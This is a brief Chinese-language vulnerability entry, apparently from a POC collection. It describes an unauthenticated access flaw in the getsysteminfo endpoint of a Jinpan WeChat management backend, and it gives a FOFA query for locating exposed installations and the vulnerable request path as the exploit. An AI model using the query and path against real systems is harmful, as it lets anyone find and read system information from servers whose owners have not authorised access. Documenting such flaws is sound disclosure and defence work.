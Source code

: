 # 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

## 网络测绘

fofa: title="微信管理后台" && icon_hash="116323821"

## POC / EXP

```
/admin/weichatcfg/getsysteminfo
```